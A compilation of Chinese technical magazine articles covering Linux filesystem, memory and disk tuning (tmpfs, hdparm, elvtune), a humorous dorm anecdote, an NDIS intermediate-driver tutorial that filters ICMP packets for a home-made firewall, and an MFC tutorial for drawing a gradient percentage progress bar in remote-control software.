**ramdisk 有两种，一种可以格式化、加载，在 Linux 内核 2.0/2.2 就已经支持，其不足之处是大小固定；另一种是内核 2.4 才支持的，通过 ramfs 或者 tmpfs 来实现，它们不能被格式化，但是用起来灵活，其大小随所需要的空间而增加或减少。这里主要介绍一下 Linux 2.6 内核下的 tmpfs。**

> **小知识：**
>
> tmpfs 是一个虚拟内存文件系统，它不同于传统的用块设备形式来实现的 ramdisk。tmpfs 可以使用物理内存，也可以使用交换分区。在 Linux 内核中，虚拟内存资源由物理内存（RAM）和交换分区（SWAP）组成，这些资源是由内核中的虚拟内存子系统来负责分配和管理。tmpfs 是与虚拟内存子系统来“打交道”的，它向虚拟内存子系统请求页来存储文件，它同 Linux 的其它请求页的部分一样；不知道分配给自己的页是在内存中还是在交换分区中。tmpfs 大小也不是固定的，而是可以随着所需要的空间动态增减。

**使用 tmpfs，首先你编译内核时得选择“虚拟内存文件系统支持（Virtual memory filesystem support）”，然后就可以加载 tmpfs 文件系统了。**

```text
[root@localhost ~]# mkdir -p /mnt/tmpfs
[root@localhost ~]# mount tmpfs /mnt/tmpfs -t tmpfs
为了防止 tmpfs 使用过多的内存资源而造成系统的性能下降或死机，可以在加载时指定 tmpfs 文件系统大小的最大限制。
[root@localhost ~]# mount tmpfs /mnt/tmpfs -t tmpfs -o size=32m
```

以上创建的 tmpfs 文件系统就规定了其最大的大小为 32M。不管是使用 ramfs 还是 tmpfs，必须明白，一旦系统重启，它们中的内容将会丢失，所以那些东西可以放在内存文件系统中得根据系统的具体情况而定。

#### 5、使用日志文件系统

如果 Linux 系统由于意外情况而没有正常关机，则可能引起文件系统中某些文件的元数据（meta-data，即和文件有关的信息，例如：权限、所有者以及创建和访问时间）遭到破坏。文件系统需要维护文件的元数据来保证文件的可组织和可存取，如果元数据处于不合理或不一致的状态，那么就不能访问和存取文件。当系统重新启动时，fsck 将扫描 /etc/fstab 文件中所列出的所有文件系统，确保它们的元数据处于可用的状态。如果发现元数据不一致，fsck 将扫描和检测元数据，并纠正错误。如果文件系统很大，这个过程将需要很长的时间。

为解决这个问题，可以使用日志文件系统。日志文件系统用独立的日志文件跟踪磁盘内容的变化，在写入文件内容的同时写入文件的元数据。每次修改文件元数据时，都要先向称为“日志”的数据结构登记相应的条目。这样，日志文件系统就维护了最近更改的元数据的记录。当加载日志文件系统时，如果发现了错误，不会扫描整个文件系统的元数据，而是根据日志检查最近更改的元数据。

所以，相对于传统的文件系统（如 ext2），日志文件系统大大地加快了扫描和检测的时间。

Linux 下可用的日志文件系统很多，如 **XFS、JFS、ReiserFS、ext3** 等等。日志文件系统主要被设计为服务器环境提供出色性能和高可用性。

### 三、内存的优化

Linux 会用内存来做 cache，所以消耗的内存多。首先查看虚拟内存的使用情况，使用命令如下：

```text
[root@localhost ~]# free
             total       used       free     shared    buffers     cached
Mem:       4012632    1335748    2676884         0     194464     828612
-/+ buffers/cache:     312672    3699960
Swap:      2031608          0    2031608
```

一般来说，Linux 的物理内存几乎是完全 used，这个和 Windows 有非常大的区别，它的内存管理机制将系统内存充分利用，并非 Windows 那种无论多大的内存都要去使用一些虚拟内存。

Linux 下面虚拟内存的默认配置通过如下命令可以查看：

```text
[root@localhost ~]# cat /proc/sys/vm/freepages
```

显示的三个数字是当前系统的：最小内存空白页、最低内存空白页和最高内存空白页。

这里系统使用虚拟内存的原则是：如果空白页数目低于最高空白页设置，则使用磁盘交换空间；当达到最低空白页设置时，使用内存交换。内存一般以每页 4K 字节分配，最小内存空白页设置是系统中内存数量的 2 倍；最低内存空白页设置是内存数量的 4 倍；最高内存空白页设置是系统内存的 6 倍，这些值在系统启动时决定。

一般来讲，在配置系统分配的虚拟内存配置上，我个人认为增大最高内存空白页是一种比较好的配置方式，这里以 1G 的内存配置为例：

```text
可将原来的配置比例修改为：`2048 4096 6444`，我们通过命令
`[root@localhost ~]# echo "2048 4096 6444" > /proc/sys/vm/freepages`
因为增加了最高空白页配置，那么可以使内存更有效地利用。
```

### 四、硬盘的优化

#### 1、使用 hdparm 提高磁盘 I/O 性能

当你的 Linux 系统运行于 IDE 硬盘，可以使用 hdparm 工具来提高磁盘 I/O 的性能。不过使用 hdparm 要小心，因为可能破坏硬盘上的数据，所以在使用 hdparm 之前，仔细阅读你的硬盘手册，根据你具体的硬盘规格来使用相应的 hdparm 开关参数。

对于一块 UltraATA/66 EIDE 硬盘，其控制芯片支持多 PIO 模式和 DMA，我们使用以下命令来调谐磁盘性能：

```text
[root@localhost ~]# hdparm -x66 -d1 -u1 -m16 -c3 /dev/hda
```

- `-c3`：就是把硬盘的 16 位格式转换为 32 位模式（32-bit mode w/sync），控制数据块何以 PCI 总线传递到控制器。
- `-m16`：改变硬盘的多路扇区的读功能，`-m16` 可以使得硬盘在一次 I/O 中断中读入 16 个扇区的数据（据具体硬盘而定）。
- `-d1`：打开 DMA 模式。
- `-x66`：在支持 UDMA-capable 的硬盘中，这个参数可以支持双 DMA 通道的数据传输模式。
- `-u1`：Linux 在处理磁盘中断时，可以 unmask 其他的中断或者响应其他中断相关的任务。

查看以上的更改情况可以使用命令：

```text
[root@localhost ~]# hdparm /dev/hda
```

测试磁盘 I/O 性能可以使用命令：

```text
[root@localhost ~]# hdparm -tT /dev/hda
```

如果磁盘的性能有改进的话，可以使用以下命令来保存设置：

```text
[root@localhost ~]# hdparm -k1 /dev/hda
```

hdparm 命令的一些常用的其他参数：

- `-g`：显示硬盘的磁轨、磁头、磁区等参数；
- `-i`：显示硬盘的硬件规格信息，这些信息是在开机时由硬盘本身所提供；
- `-I`：直接读取硬盘所提供的硬件规格信息；
- `-p`：设定硬盘的 PIO 模式；
- `-Tt`：评估硬盘的缓存读取效率和硬盘读取效率；
- `-u <0或1>`：在硬盘存取时，允许其他中断要求同时执行；
- `-v`：显示硬盘的相关设定。

#### 2、使用 DMA 和 32 位传输

使用 DMA 和 32 位传输可以大幅提升系统性能，相关命令如下：

```text
[root@localhost ~]# hdparm -c 1 /dev/hda
```

此命令将第一个 IDE 硬盘的 PCI 总线锁定为 32 位，可使用 `-c 0` 参数来禁用 32 位传输。

在硬盘上使用 DMA，命令为：

```text
[root@localhost ~]# hdparm -d 1 /dev/hdaX
```

关闭 DMA 可以使用 `-d 0` 的参数。更改完成后，可以使用 hdparm 来检查修改后的结果，使用命令：

```text
[root@localhost ~]# hdparm -t /dev/hdaX
```

为了确保设置的结果不变，使用命令：

```text
[root@localhost ~]# hdparm -k 1 /dev/hdaX
```

#### 3、使用 elvtune 调谐磁盘 I/O

在 Linux 内核 2.4 以后的版本中，可以通过磁盘 I/O 的调度操作来控制磁盘 I/O 的响应时间和吞吐量。通过调整 I/O 请求在队列中的最大等待时间，可以在响应时间和吞吐量之间调谐。如果要求较少的响应时间，那么吞吐量将降低；反之，较长的响应时间则可以得到较大的吞吐量。

我们可以使用工具 `elvtune` 来改变最大的响应时间值，使用方法如下：

查看当前的设置：

```text
[root@localhost ~]# elvtune /dev/hdaX
```

修改当前的配置：

```text
[root@localhost ~]# elvtune -r 2000 -w 4000 /dev/hdaX
```

其中 `-r` 参数针对读操作，`-w` 参数针对写操作。我们可以通过命令 `iostat -d -x /dev/hdaX` 得到的平均信息（包括平均请求大小和平均队列长度）来监视以上 I/O 配置的效果，并调整配置，以得到最佳的性能。

一般来讲，对于实时性要求较高、读写频繁，但操作数据量较少的 Linux 服务器，可以将参数调小。反之，如果对于读写不频繁，但要求具有较大的吞吐量的 Linux 服务器，可以将参数调大，以获得较大的吞吐量。

### 五、结论

系统优化就是尽量使用最少的服务来完成你的服务。

## 张宇首话

某晚有老鼠将宿舍门咬破一洞，后几日此洞常有老鼠进进出出，成为大患。老四审视一番后曰：“安一个补丁吧！”找来找去，老四发现一只易拉罐，遂用刀剪裁开，钉在洞上。美其名曰，国外有“赛门铁克”，如今我们来一个“铁壳塞门”。

其后几日却安无事。不料，一波还未平息，一波又来侵袭，此门开关时总是发出“吱吱呀呀”的声音，烦人。老四对该门仔细操作一番，定下结论：“门轴已坏，换个驱动吧！”

## 浅谈 NDIS 中间层驱动下防火墙的实现（三）

□ UESTC@菠菜网络安全工作室 ay

- 从本文您可以学到：
- 了解常用数据包的结构
- 利用程序拦截 ICMP 协议

好了，开始听我唠叨最后一段，完后你们就可以自己写个防火墙了。在上期的 PtReceive 的示例代码中，PacketAnalysis 就是我们提取数据包地址的函数。在 PacketAnalysis 中我们只要从 NDIS_PACKET 结构中得到 NDIS_BUFFER 结构，这是一个链表结构，然后遍历这个链表就可以得到数据包的内容了，具体代码如下：

```c
NDIS_STATUS status;
PNDIS_BUFFER NdisBuffer;
UINT TotalPacketLength = 0, copysize = 0, DataOffset = 0,
    PhysicalBufferCount, BufferCount;
PUCHAR mybuffer = NULL, tembuffer = NULL;
// 假设这个是在 PtReceive 等函数中得到的 PACKET
NdisQueryPacket(packet,            // 我们先得到第一个 NDIS_BUFFER 的指针
                &PhysicalBufferCount,
                &BufferCount,
                &NdisBuffer,       // NdisBuffer 就是指向链表头
                &TotalPacketLength
               );

/*
其实也可以不用那么麻烦，直接 NdisBuffer = packet->Private.Head，就
可以取得第一个 BUFFER 了
*/

status = NdisAllocateMemory(&mybuffer, 2048, 0,
                            HighestAcceptableMax);   // 分配我们的内存块
if (status != NDIS_STATUS_SUCCESS)
    return NDIS_STATUS_FAILURE;
NdisZeroMemory(mybuffer, 2048);
NdisQueryBufferSafe(              // 取得 NDIS_BUFFER 描述符中数据的首地址
                    NdisBuffer,
                    &tembuffer,
                    &copysize,
                    NormalPagePriority
                   );

// 将数据复制到我们的内存中
NdisMoveMemory(mybuffer, tembuffer, copysize);
DataOffset = copysize;
while(1)
{
    /*
    也可以这样操作而不用 NdisGetNextBuffer
    if(NdisBuffer->Next == packet->Private.Tail)
        break;
    NdisBuffer = NdisBuffer->Next;
    if(pmdl == NULL)
        break;
    */

    // 获得下一个 NDIS_BUFFER 的指针
    NdisGetNextBuffer(NdisBuffer, &NdisBuffer);
    // 如果指针是 NULL，那么表示到链表尾了
    if (NdisBuffer == NULL)
        break;
    NdisQueryBufferSafe(
                        NdisBuffer,
                        &tembuffer,
                        &copysize,
                        NormalPagePriority
                       );
    NdisMoveMemory(mybuffer + DataOffset, tembuffer, copysize);
    DataOffset += copysize;
}
```

// OK，我们要的数据就全部都在申请的内存 mybuffer 中，数据大小为 DataOffset

上面代码的功能是直接将数据包的数据拷贝到了我们分配的缓冲区 mybuffer 中，其实在 PtReceive 传入的参数中可以直接获得数据包的内容，但是在 PtReceivePacket 中我们有必要通过分析 MyPacket 这个结构来获取我们想要的数据。

得到了数据包以后，我们就可以对数据包进行过滤了。由于我的网卡和系统原因，中间层驱动程序是调用的 PtReceivePacket 回调函数，所以在这里我们得到的 mybuffer 指针是指向以太头首地址的指针。这样我们要先弄清楚到底数据包中的结构是怎样的。

数据包一般都是以太头->IP 头->TCP 头这种结构的，其中以太头总共占 14 字节，前 6 字节储存目的地址的 MAC 地址，后 6 字节是源地址的 MAC 地址，最后 2 字节储存的是数据包类型。数据包类型的具体结果为：0x08 0x00-->IP，0x08 0x06-->ARP，0x08 0x35-->RARP。

接着是 IP 头，它的具体内容就不介绍了，这里只介绍几个有用的标志位。IP 头里由一个标志位表示 IP 数据包的传输层协议类型，如：1->ICMP、2->IGMP、6->TCP、17->UDP。如果我们要过滤 ICMP 的数据包，那么只要检测相应的标志位就 OK 了。我们来看代码：

```c
if ( ( (char *)mybuffer )[12] == 8 &&
     ( (char *)mybuffer )[13] == 0 &&
     ( (char *)mybuffer )[23] == 1 )
{
    DbgPrint("截获到 ICMP 数据包!\n");
    NdisFreeMemory(mybuffer, 2048, 0);
    return NDIS_STATUS_NOT_ACCEPTED;
}
```

这样设置就可以达到截获 ICMP 数据包的效果了。既然数据包有了，那么这些过滤规则就可以按大家想要的方式设置了。

为了更简单地分析数据包，我提供几个结构给大家，使用以下结构来操作数据包会更加简便，也就不用像我当初那样看着以太头数哪个标志位在第几个字节了，呵呵！相关结构代码如下：

```c
typedef struct                 // 定义 IP 首部
{
    unsigned char h_lenver;        // 4位首部长度+4位 IP 版本号
    unsigned char tos;             // 8位服务类型 TOS
    unsigned short total_len;      // 16位总长度（字节）
    unsigned short ident;          // 16位标识
    unsigned short frag_and_flags; // 3位标志位+13位片偏移
    unsigned char ttl;             // 8位生存时间 TTL
    unsigned char proto;           // 8位协议（TCP、UDP 或其他）
    unsigned short checksum;       // 16位 IP 首部校验和
    unsigned int sourceIP;         // 32位源 IP 地址
    unsigned int destIP;           // 32位目的 IP 地址
} IP_HEADER, *PIP_HEADER;

typedef struct                 // 定义 TCP 首部
{
    USHORT th_sport;               // 16位源端口
    USHORT th_dport;               // 16位目的端口
    UINT   th_seq;                 // 32位序列号
    UINT   th_ack;                 // 32位确认号
    UCHAR  th_lenres;              // 4位首部长度/6位保留字
    UCHAR  th_flag;                // 6位标志位
    USHORT th_win;                 // 16位窗口大小
    USHORT th_sum;                 // 16位校验和
    USHORT th_urp;                 // 16位紧急数据偏移量
} TCP_HEADER, *PTCP_HEADER;
```

操作的话就类似这样：

```c
PUCHAR tembuf;
PIP_HEADER ipheader;
tembuf = data + 14; // 跳过以太头
ipheader = (PIP_HEADER)tembuf;

// 计算 IP 头长度
ipheaderlength = ipheader->h_lenver & 0x0f;
ipheaderlength = ipheaderlength * 4;

// 计算 IP 头偏移
ipoffset = ( ipheader->frag_and_flags & 0x1fff );
```

如果想了解更多的数据包结构，建议大家参考一些 TCP/IP 协议的文章，这样有利于自己对数据包的分析。

最后说到了关于驱动的安装问题。在朱雁群的《Windows 防火墙与网络封包截获技术》这本书中附带的 xpassthru 例子中，有个自带的 setup 文件夹，大家只要将编译生成的驱动文件 xpassthru.sys（切记，不要改驱动名字）放到这个文件夹内，然后去“本地连接”的“属性”里选择“安装”，添加服务后找到 setup 文件夹并选择 XPTOWIN.INF 这个文件进行安装，会弹出“没有数字签名”的警告。不理它，继续安装，最后你会看到网络服务里面多了项 Sample Filter Miniport 的设备，这个就是我们写好的驱动了。

建议编写和调试驱动时在虚拟机中进行，因为我在编写时平均每天蓝屏 1 次，极度郁闷，很影响效率啊，呵呵。文章到这里就结束了，谢谢大家一直的关注 :)

> 注：文中的部分代码都是从朱雁群的《Windows 防火墙与网络封包截获技术》这本书中附带的 xpassthru 例子和 DDK 中 passthru 例子中摘取的。

（文章中所涉及的相关代码及工具都已经收录在光盘中）

> 编辑点评：原来网络防火墙就这么简单啊？大家是不是这么想的呢？那还不赶紧动手写出一个属于自己的防火墙！

## 远程控制软件界面美化之数字彩色进度条

图 杨阳  牟文炜

- 从本文您可以学到：
- 了解 MFC
- 了解图形操作的编写

远程控制软件在上传文件或者下载文件的时候，都有一个进度条来表示上传或下载的进度，我们可以通过 VC 中 MFC 的“Progress”控件来实现。通过 MFC 的“Progress”控件实现的进度条显示进度时是简单的蓝色，本文将教给大家通过 MFC 的“Progress”控件和自定义扩展类来实现数字彩色进度条的方法。

使用 MFC 的“Progress”控件创建的进度条是没有数字进度显示的，我们优先完成在进度条中数字进度的显示，也就是通过一个百分数来实现文件上传或者下载的进度显示。

### 进度条的实现原理

#### 一、创建工程

首先在 VC 中创建一个名为“Modify ProcessCtrl”的 MFC AppWizard[exe] 工程，接下来在“MFC AppWizard-Step 1”对话框中的“你喜欢创建的应用程序”中选择“基本对话”，最后选择“完成”。这样，一个基于基本对话框的 MFC AppWizard[exe] 工程就创建完毕了。

#### 二、创建 Progress 控件

在控件中选择“Progress”控件，并在 MFC 对话框创建一个“Progress”控件。右键选择该控件，在菜单中选择“属性”，然后在“Progress Properties”对话框中将“General”选项的“ID”值修改成“IDC_PROGRESS”，也就是把“Progress”控件的 ID 修改为“IDC_PROGRESS”，最后在“Styles”选项中，将控件加入“平滑”风格。

#### 三、创建自定义扩展类

自定义扩展类的原理以及创建的方法我们在上篇文章中已经详细介绍了，因此在本篇文章中不再叙述了。根据上篇文章中所介绍的方法，创建一个名为“CGradientProgress”的“General class”，其父类为“CProgressCtrl”类。

#### 四、数字进度条的实现

- 1、数字进度条原理

用一个百分数来表示文件上传或者下载的进度，实际上就是计算当前的进度位置占总进度的比例，如图 1 所示。


假设进度条的起点为 m_nLower，进度条的终点为 m_nUpper，当进度条的位置处于 m_nCurrentPosition 点时，此时如何用一个百分数来表示进度条的进度呢？

整个进度条的长度为 m_nUpper-m_nLower，而当前进度的长度为 m_nCurrentPosition-m_nLower，则当前进度的百分数为（m_nCurrentPosition-m_nLower）*100/(m_nUpper-m_nLower)。

- 2、变量的定义

知道了原理算法，我们就可以开始进行程序编写了。首先在“GradientProgress.h”头文件的 CGradientProgress 类中将以上三个变量定义为“protected”的 int 类型变量：

```c
protected:
int m_nLower, m_nUpper, m_nCurrentPosition;
```

接下来在“GradientProgress.cpp”中的“CGradientProgress::CGradientProgress()”构造函数中定义这三个变量：

```c
float fp1;
fp1 = (float)(m_nCurrentPosition-m_nLower);
float fp2;
fp2 = (float)(m_nUpper-m_nLower);
float fp3;
fp3 = fp1*100/fp2;
```

其中 fp1 为当前进度条的长度，fp2 为进度条总长度，fp3 为当前进度所占总进度的百分比。

接下来把得到的 float 类型的百分比转换成 CString 类：

```c
CString strPercent;
strPercent.Format("%3.0f %%", fp3);
```

Format 是 CString 类的成员函数，其作用是将指定格式的数据写入到 CString 中，并且以 C-style 的格式输出该数据。其中“%3.0f”中的 0 表示百分数的小数位为 0 位，3 表示百分数所占的位数。如果百分数的实际位数小于 3，则在百分数前补空格；如果大于 3 位，则只显示 3 位。也就是说，以上源代码中“%3.0f %%”的目的是显示百分数的形式（一个 3 位的整数）。

然后创建一个设备上下文对象，用来在控件中显示进度的百分数，并且得到“Progress”控件的位置：

```c
CPaintDC dc(this);
CRect rectClient;
GetClientRect(&rectClient);
```

之后设置显示百分数的颜色、背景颜色：

```c
dc.SetTextColor(RGB(255, 255, 255));
dc.SetBkMode(TRANSPARENT);
```

其中，以上源代码的第一行表示设置显示百分数的颜色为白色，第二行表示背景为透明。

最后使用 CPaintDC 类的 DrawText 成员函数来显示该百分数：

```c
dc.DrawText(strPercent, &rectClient, DT_VCENTER | DT_CENTER | DT_SINGLELINE);
```

DrawText 函数的第一个参数表示要显示的内容，第二个为显示内容的范围，即为“Progress”控件的大小，第三个表示显示内容的方式，DT_VCENTER 表示百分数在进度框垂直方向上居中，DT_CENTER 表示将百分数在进度框水平方向上居中，DT_SINGLELINE 表示将百分数绘制在一行中。

- 4、创建内存设备上下文类

假如需要对屏幕进行比较多的 GDI 函数操作，如果每一步操作都直接对屏幕 dc 进行操作，那可能会出现屏幕的闪烁。一个很好的解决方法就是使用内存 dc，将这些操作全部先在内存 dc 上操作，然后一次性在屏幕上进行操作。

首先使用前面我们讲解的方法加入一个名为“CMemDC”的类，该类的父类为“CDC”类。接下来在“MemDC.h”头文件中对“CMemDC”类的构造函数 CMemDC 进行定义：

```c
CMemDC(CDC* pDC) : CDC()
{
    m_bMemDC = !pDC->IsPrinting();
}
```

使用 CDC 类的成员函数 IsPrinting 来判断确定正在使用的设备上下文是否用于打印。如果是，则定义 CDC 类的三个成员变量：

```c
m_bPrinting = pDC->m_bPrinting;
m_hDC = pDC->m_hDC;
m_hAttribDC = pDC->m_hAttribDC;
```

如果设备上下文不是用于打印，则创建内存设备上下文（dc）：

```c
pDC->GetClipBox(&m_rect);
CreateCompatibleDC(pDC);
m_bitmap.CreateCompatibleBitmap(pDC, m_rect.Width(), m_rect.Height());
```

```c
m_pOldBitmap = SelectObject(&m_bitmap);
SetWindowOrg(m_rect.left, m_rect.top);
```

其中，GetClipBox 是 CDC 的成员函数，其作用为获取当前剪切边界周围最紧绑定矩形的位置，也就是能将“Progress”控件最紧绑定矩形的位置；CreateCompatibleDC 函数的作用是创建内存设备上下文，与另一个设备上下文匹配，可以用它在内存中准备图像；CreateCompatibleBitmap 函数是 CBitmap 类的成员函数，用来创建与指定的设备环境相关的设备兼容的位图；SelectObject 函数是 CDC 类的成员函数，用来选择 GDI 绘图对象，本程序中使用 SelectObject 函数来选择位图；SetWindowOrg 函数是 CDC 类的成员函数，用来设置设备上下文的窗口起点。

以上源代码的作用是在“Progress”控件的范围内创建内存 dc，并把内存 dc 的起点设置在控件的左上角。在析构函数中，将创建的内存 dc 拷贝到原始 dc 中：

```c
m_pDC->BitBlt(m_rect.left, m_rect.top, m_rect.Width(), m_rect.Height(), this, m_rect.left, m_rect.top, SRCCOPY);
```

其中，第一个和第二个参数是原始 dc 位置左上角的坐标；第三个参数是原始 dc 的宽度；第四个参数是原始 dc 的高度；第五个参数是一个 CDC 对象的指针，this 表示内存 dc 的句柄；第六个和第七个参数表示内存 dc 位置的左上角坐标；第八个参数表示光栅操作代码，它是指内存 dc 与原始 dc 以及图案刷的颜色值进行布尔运算的方式，SRCCOPY 表示将内存 dc 中矩形图像直接复制到原始 dc 的矩形上。

- 5、DrawGradient 函数的定义

创建一个自定义函数 DrawGradient，用来声明一个 CMemDC 类的对象，并且设置其属性，用来显示编程的效果。首先在“GradientProgress.h”头文件的 CGradientProgress 类的 protected 中定义该函数：

```c
void DrawGradient(CPaintDC* pDC, const RECT &rectClient);
```

接下来在“GradientProgress.cpp”文件中定义该函数：

```c
void CGradientProgress::DrawGradient(CPaintDC *pDC, const RECT &rectClient)
{
    CBrush brush;
    CMemDC memDC(pDC);
    brush.CreateSolidBrush(RGB(255, 0, 0));
    memDC.FillRect(&rectClient, &brush);
    brush.DeleteObject();
}
```

程序的第四行定义了一个 CBrush 类的对象 brush；第五行定义了一个 CMemDC 类的对象 memDC，对该对象创建内存 dc，在内存 dc 中完成百分数的显示，并将内存 dc 拷贝给原始 dc；第六行中的 CreateSolidBrush 是 CBrush 的成员函数，其作用是用指定的颜色初始化画刷，也就是把画刷初始化成红色；第七行中的 FillRect 函数是 CDC 类的成员函数，其作用是将指定的区域填充成画刷的颜色；第八行表示将创建的画刷删除。

以上源代码的主要作用是创建一个 CMemDC 类的对象，那么在创建对象的同时就调用了 CMemDC 类的构造函数和析构函数创建了内存 dc。在内存 dc 中显示百分数，将内存 dc 拷贝到原始 dc 中，也就是在“Progress”控件中显示。

最后，我们应该在“GradientProgress.cpp”文件的消息响应函数 OnPaint 中调用 DrawGradient 函数。调用该函数时机应该在设置百分数的属性之前，也就是设置成以下代码：

```c
DrawGradient(&dc, rectClient);
dc.SetTextColor(m_clrText);
```

为什么要在设置百分数属性之前调用 DrawGradient 函数呢？因为前面我们已经提到，对于显示百分数的操作是在内存 dc 中进行的，只有调用 DrawGradient 函数创建 CMemDC 类的对象之后，才能创建内存 dc，接下来才能对百分数进行后处理。因此，调用 DrawGradient 函数的时机是非常重要的。

#### 6、SetRange 与 SetPos 函数的重载

SetRange 函数的作用是设置进度条的上限和下限，SetPos 函数的作用是在进度条中设置当前进度的位置。进行重载。

SetRange 函数的源代码如下：

```cpp
void CGradientProgress::SetRange(int nLower, int nUpper)
{
    m_nLower = nLower;
    m_nUpper = nUpper;
    CProgressCtrl::SetRange(nLower, nUpper);
}
```

也就是说，我们在 SetRange 函数原功能的基础上，将“Process”进度条的上限和下限的值传递给了自定义扩展类 CGradientProgress 的上限和下限。

同理，重载 SetPos 函数的源代码如下：

```cpp
int CGradientProgress::SetPos(int nPos)
{
    m_nCurrentPosition = nPos;
    return (CProgressCtrl::SetPos(nPos));
}
```

同样，在 SetPos 函数原功能的基础上，将当前进度的位置传递给了自定义扩展类 CGradientProgress 的 m_nCurrentPosition，因为我们需要 m_nCurrentPosition 来显示表示当前进度位置的百分数。

#### 7、自定义扩展类 CGradientProgress 对象的创建

接下来在“ModifyProcessCtrlDlg.h”头文件的 CModifyProcessCtrlDlg 类的 public 中定义 CGradientProgress 类的对象：

```cpp
CGradientProgress m_Progress;
```

然后在“ModifyProcessCtrlDlg.cpp”的 `void CModifyProcessCtrlDlg::DoDataExchange(CDataExchange* pDX)` 函数中定义：

```cpp
DDX_Control(pDX, IDC_PROGRESS, m_Progress);
```

其中，IDC_PROGRESS 是“Process”控件的 ID，以上源代码的含义是将 m_Progress 作为“Process”控件的成员变量。

#### 8、按钮触发

最后，在工程的对话框中添加一个按钮控件，并把该控件的内容改成“开始”。双击该按钮控件，创建其鼠标单击的响应函数。

```cpp
m_Progress.SetRange(0,500);
for (int m = 0; m < 500; m++)
{
    if((m>100) && (m<200))
    {
        Sleep(20);
        m_Progress.SetPos(m);
    }
    if((m>200) && (m<300))
    {
        Sleep(5);
        m_Progress.SetPos(m);
    }
    if((m>300) && (m<400))
    {
        Sleep(60);
        m_Progress.SetPos(m);
    }
    Sleep(10);
    m_Progress.SetPos(m);
}
```

以上源代码使得进度条在不同的位置，其前进的速度不同，这样比进度条用同一速度前进要美观了许多，如图 2 所示。

### 彩色进度条的实现

彩色进度条的效果是进度条从其起点开始，颜色随进度的变化渐变到进度条终点的颜色。其原理为根据起点与终点的颜色差，确定进度条的步进以及每次步进的颜色，最后根据确定的颜色画出彩色进度条。

#### 一、彩色进度条与数字进度条的关系

对于数字彩色进度条，要求颜色渐变的进度应该与数字的进度保持一致。在程序中，通过当前进度 m_nCurrentPosition 定义了当前进度的长度：

```cpp
((m_nCurrentPosition-m_nLower)/(m_nUpper-m_nLower))*rectClient.right;
```

其中 m_nCurrentPosition、m_nLower 与 m_nUpper 三个变量的关系如图 1 所示，rectClient.right 为进度条的长度。我们将当前进度的长度设置为一个最大值，颜色渐变进度的长度不能超过当前进度长度。因此，我们在前文定义 DrawGradient 函数时需要进行修改，再加入一个形式参数 maxWidth，用来表示当前进度的长度。

```cpp
void DrawGradient(CPaintDC *pDC, const RECT &rectClient, const int &nMaxWidth);
```

#### 二、DrawGradient 函数的修改

由于 DrawGradient 函数定义的形式改变，在前文中 DrawGradient 函数定义的基础上加入下面的功能。

- 1. 颜色渐变的次数

上文已经提到，彩色进度条是从进度条起点的颜色渐变至终点的颜色，因此，可以根据进度条起点颜色与终点颜色差来确定颜色渐变的次数：

```cpp
int r, g, b;
r = (GetRValue(m_clrEnd) - GetRValue(m_clrStart));
g = (GetGValue(m_clrEnd) - GetGValue(m_clrStart));
b = (GetBValue(m_clrEnd) - GetBValue(m_clrStart));
int nSteps;
nSteps = max(abs(r), max(abs(g), abs(b)));
```

其中 GetRValue、GetGValue 和 GetBValue 函数分别表示获取颜色中红色、绿色和蓝色的值；m_clrEnd 和 m_clrStart 分别表示进度条终点的颜色与起点的颜色，以上两个变量在 CGradientProgress 类的构造函数中定义：

```cpp
m_clrStart = COLORREF(RGB(255, 0, 0));
m_clrEnd   = COLORREF(RGB(0, 0, 255));
```

以上源代码把进度条起点的颜色声明为红色，把进度条终点的颜色声明为蓝色，彩色进度条的效果就是从红色渐变到蓝色。r、g、b 分别表示进度条起点与终点“三原色”的颜色差，nSteps 取三个值中最大的一个，作为颜色渐变的次数。

- 2、颜色渐变的长度步进

进度条的长度为 rectClient.right，进度条颜色渐变的次数为 nSteps，因此颜色渐变的长度步进为：

```cpp
float fStep;
fStep = (float)rectClient.right / (float)nSteps;
```

- 3、三原色颜色步进

同理，进度条起点与终点三原色的色差分别为 r、g 和 b，进度条颜色渐变的次数为 nSteps，因此，三原色颜色步进分别为：

```cpp
float rStep, gStep, bStep;
rStep = r/(float)nSteps;
gStep = g/(float)nSteps;
bStep = b/(float)nSteps;
```

- 4、绘出彩色进度条

在得到了颜色渐变的次数、颜色渐变的长度步进以及三原色的颜色步进之后，就可以着手绘出彩色进度条了。

首先使用 for 循环语句，其循环变量的取值为颜色渐变的次数。也就是说，每次颜色渐变都要绘制进度条：

```cpp
for (int iOnBand = 0; iOnBand < nSteps; iOnBand++)
```

接下来在 for 循环中使用 SetRect 函数设置绘画的范围：

```cpp
RECT rectFill;
::SetRect(&rectFill, (int)(iOnBand * fStep), 0,
(int)((iOnBand+1) * fStep), rectClient.bottom+1);
```

SetRect 函数是一个 Windows API 函数，用来设置指定矩形的坐标。也就是把 rectFill 代表的矩形的左、上、右、下坐标分别设置成 `(int)(iOnBand * fStep)`、0、`(int)((iOnBand+1) * fStep)` 和 `rectClient.bottom+1`。以上代码将每次颜色渐变的区间设置为矩形 rectFill，然后使用三原色的颜色步进设置颜色的渐变：

```cpp
CBrush brush;
brush.CreateSolidBrush(
RGB(
GetRValue(m_clrStart) + rStep*iOnBand,
GetGValue(m_clrStart) + gStep*iOnBand,
GetBValue(m_clrStart) + bStep*iOnBand
)
);
```

其中 CreateSolidBrush 是 CBrush 类的成员函数，其作用是创建由 RGB 确定的颜色画刷。大家需要注意的是 RGB 中三原色的值，为三原色的起始值加上三原色颜色步进与渐变次数的乘积。

之后，使用自定义扩展类 memDC 的对象绘出彩色进度条：

```cpp
CMemDC memDC(pDC);
memDC.FillRect(&rectFill, &brush);
```

其中 FillRect 是 CMemDC 类的父类 CDC 的成员函数，其作用是用自定义的 brush 在 rectFill 指定的区间内绘出彩色进度条。

接着我们使用 CBrush 类的成员函数 DeleteObject 将创建的画刷删除：

```cpp
brush.DeleteObject();
```

程序写到这里，我们前面定义的变量 maxWidth，也就是当前进度条的长度，该登场了。前面已经提到，颜色渐变的进度应该与当前进度条的进度相同，如果颜色渐变的进度（rectFill.right）大于当前进度条的进度时（maxWidth），则应该将多出来的颜色渐变的进度设置为指定颜色：

```cpp
if (rectFill.right > nMaxWidth)
{
    ::SetRect(&rectFill, nMaxWidth, 0, rectClient.right, rectClient.bottom);
    brush.CreateSolidBrush(RGB(255,0,255));
    memDC.FillRect(&rectFill, &brush);
    brush.DeleteObject();
    return;
}
```

通过以上程序，在你的远程控制软件中就产生了一个很“炫”的数字彩色进度条。

> （文章中所涉及的相关代码及工具都已经收录在光盘中）

**编辑点评：**  
数字彩色进度条最近见得比较多，的确是很“炫”，不过还见到了一种 3D 效果的，感觉也不错哦！

